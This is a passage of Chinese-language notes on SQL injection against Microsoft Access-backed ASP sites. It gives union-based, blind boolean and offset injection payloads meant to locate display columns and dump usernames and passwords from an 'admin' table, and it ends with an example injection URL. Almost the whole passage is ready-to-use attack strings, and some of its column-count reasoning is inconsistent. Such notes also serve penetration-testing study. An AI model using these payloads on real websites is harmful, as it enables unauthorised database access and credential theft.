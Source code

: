 ?id=3 and exists (select password from admin) 说明存在password

?id=-1 union select 1,2,3,4,5,6,7,8,9,10 找到注入位

?id=-1 union select 1,user,password,4,5,6,7,8,9,10 from admin（即可爆出账号密码）

### 无回显：

查表：and exists (select \* from 表名) 存在的话就返回正常 不存在就返回不正常

查列：and exists (select 列名 from 表名)

查内容：and (select top 1 asc(mid(user,1,1))from admin)=97

and (select top 1 asc(mid(user,2,1))from admin)=97 猜字段(username)中第一条记录内容的第二个字符

and (select top 2 asc(mid(user,1,1))from admin)=97 猜字段(username)中第二条记录内容的第一个字符

### 偏移注入（回显数连续）

假设已经判断存在admin表，order by下判断有35行，且回显如下回显字段连续

![](https://pic3.zhimg.com/v2-bda9a9d00754f6db1326a58dec5c0052_b.jpg)

UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,\* from admin --返回错误页面

UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,\* from admin --返回错误页面

UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,\* from admin --返回错误页面

UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,\* from admin --返回到一个错误页面提示查询语句出错，因此admin表的列数为6

UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,admin.\*,34,35 from admin

因为回显如下图 28 29 30是连着的，直接在27后加表名.\*

![](https://pic3.zhimg.com/v2-bda9a9d00754f6db1326a58dec5c0052_b.jpg)

爆出内容  

![](https://pic4.zhimg.com/v2-198e9121da7bf885d81274ec6ee1f8ef_b.jpg)

UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,admin.\*,34,35 from admin where id = 3 添加where id =数值，可得到更多的内容

### 偏移注入（常规操作）

Access偏移注入：表名知道，列名无法获取的情况下。

存在注入点，且order by下判断出字段数为22行

**爆出显位**

127.0.0.1/asp/index.asp?id=1513 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22 from admin
